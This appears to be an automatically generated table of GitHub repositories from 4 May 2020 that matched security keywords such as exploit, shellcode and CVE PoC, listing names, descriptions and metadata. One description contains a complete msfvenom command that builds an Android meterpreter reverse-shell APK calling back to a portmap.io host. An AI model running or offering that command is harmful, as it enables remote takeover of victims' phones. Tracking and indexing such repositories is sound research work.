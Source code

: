 
# Summary for results/2020/05/04
    
22 records found after deduplication

| full_name | description | html_url | matched_list | matched_count | pushed_at | size | stargazers_count | language | forks_count | vul_ids |
|------------------------------------------|-------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------|---------------------------------------------------------------------------------------|-----------------|---------------------------|--------|--------------------|------------|---------------|--------------------|
| TaroballzChen/PSHinjector | PSHinjector autoscript is a tool that inject shellcode(x64 payload) by powershell with python3 programing | https://github.com/TaroballzChen/PSHinjector | ['shellcode'] | 1 | 2020-05-04 16:03:11+00:00 | 44 | 28 | PowerShell | 5 | [] |
| vineelsai26/ADB-Exploit | A python based script to connect to Android via TCP protocol | https://github.com/vineelsai26/ADB-Exploit | ['exploit'] | 1 | 2020-05-04 09:45:49+00:00 | 9518 | 2 | Python | 1 | [] |
| kevthehermit/CVE-2020-11651 | PoC for CVE-2020-11651 | https://github.com/kevthehermit/CVE-2020-11651 | ['cve poc', 'cve-2'] | 2 | 2020-05-04 20:39:49+00:00 | 5 | 6 | Python | 5 | ['CVE-2020-11651'] |
| Chainode/HarmonyExploits | Harmony Exploit Scenarios | https://github.com/Chainode/HarmonyExploits | ['exploit'] | 1 | 2020-05-04 20:29:24+00:00 | 1815 | 0 | | 0 | [] |
| ZiggyFTW/libSSH-exploit | libSSH-exploit | https://github.com/ZiggyFTW/libSSH-exploit | ['exploit'] | 1 | 2020-05-04 19:04:29+00:00 | 1 | 0 | Python | 0 | [] |
| shubham0d/CVE-2020-3153 | POC code for CVE-2020-3153 - Cisco anyconnect path traversal vulnerability | https://github.com/shubham0d/CVE-2020-3153 | ['cve poc', 'cve-2', 'exploit', 'vulnerability poc'] | 4 | 2020-05-04 19:34:15+00:00 | 149 | 4 | C# | 1 | ['CVE-2020-3153'] |
| mkelepce/CVE-2020-12629 | osTicket 1.14.1 - Persistent Authenticated Cross-Site Scripting | https://github.com/mkelepce/CVE-2020-12629 | ['cve-2'] | 1 | 2020-05-04 14:41:34+00:00 | 6 | 0 | | 0 | ['CVE-2020-12629'] |
| ddisaster/megaliByra | Buffer overflow exploitable app | https://github.com/ddisaster/megaliByra | ['exploit'] | 1 | 2020-05-04 14:42:06+00:00 | 166 | 0 | Python | 0 | [] |
| decoder-it/NetworkServiceExploit | POC for NetworkService PrivEsc | https://github.com/decoder-it/NetworkServiceExploit | ['exploit'] | 1 | 2020-05-04 17:02:48+00:00 | 37 | 89 | C | 20 | [] |
| RY0M43CH1Z3N/PS4-6.50 | K.Exploit | https://github.com/RY0M43CH1Z3N/PS4-6.50 | ['exploit'] | 1 | 2020-05-04 11:05:20+00:00 | 0 | 0 | | 0 | [] |
| ICWR-TECH/SCRSL-G | Shellcode Reverse Shell Linux - Generator | https://github.com/ICWR-TECH/SCRSL-G | ['shellcode'] | 1 | 2020-05-04 10:49:10+00:00 | 6 | 0 | Python | 0 | [] |
| ratanlal143/Metasploit-Mobile-Model-Name | Stagefright commond | https://github.com/ratanlal143/Metasploit-Mobile-Model-Name | ['metasploit module OR payload'] | 1 | 2020-05-04 10:01:32+00:00 | 1 | 0 | | 0 | [] |
| ratanlal143/Use-of-Metasploit-framework | msfvenom -p android/meterpreter/reverse_tcp lhost=lalratan519-32111.portmap.io lport=32111 R > payload1.apk | https://github.com/ratanlal143/Use-of-Metasploit-framework | ['metasploit module OR payload'] | 1 | 2020-05-04 09:57:44+00:00 | 1 | 0 | | 0 | [] |
| dozernz/cve-2020-11651 | None | https://github.com/dozernz/cve-2020-11651 | ['cve-2'] | 1 | 2020-05-04 08:11:21+00:00 | 56 | 103 | Python | 35 | ['CVE-2020-11651'] |
| sokoban/attack_code_PoC | nan | https://github.com/sokoban/attack_code_PoC | ['attack poc'] | 1 | 2020-05-04 05:57:24+00:00 | 2 | 0 | Python | 0 | [] |
| joshmalek/ethack | Exploits and notes for EH. | https://github.com/joshmalek/ethack | ['exploit'] | 1 | 2020-05-04 22:25:15+00:00 | 4 | 0 | Python | 0 | [] |
| sunnyc7/WDEG | Research on WDEG (Windows Defender Exploit Guard) and its components. | https://github.com/sunnyc7/WDEG | ['exploit'] | 1 | 2020-05-04 08:15:30+00:00 | 17876 | 0 | PowerShell | 0 | [] |
| Darkmux/PortmapSploit | Instalación de Metasploit y Creación de un Payload | https://github.com/Darkmux/PortmapSploit | ['metasploit module OR metasploit payload', 'metasploit module OR payload', 'sploit'] | 3 | 2020-05-04 04:51:24+00:00 | 29 | 11 | Shell | 3 | [] |
| vitorpy/defi-exploitator | The no code DeFi exploitator | https://github.com/vitorpy/defi-exploitator | ['exploit'] | 1 | 2020-05-04 21:27:51+00:00 | 897 | 1 | TypeScript | 1 | [] |
| geiver12/Css-Grid | Exploit the properties of css-grid for your projects. | https://github.com/geiver12/Css-Grid | ['exploit'] | 1 | 2020-05-04 15:35:48+00:00 | 2 | 0 | CSS | 0 | [] |
| roughiz/sql_injection | a sql injection scan and exploit script | https://github.com/roughiz/sql_injection | ['exploit'] | 1 | 2020-05-04 08:29:26+00:00 | 35 | 1 | Python | 0 | [] |
| RakhithJK/CVE-2020-11651 | PoC for CVE-2020-11651 | https://github.com/RakhithJK/CVE-2020-11651 | ['cve poc', 'cve-2'] | 2 | 2020-05-04 20:39:49+00:00 | 5 | 0 | | 0 | ['CVE-2020-11651'] |
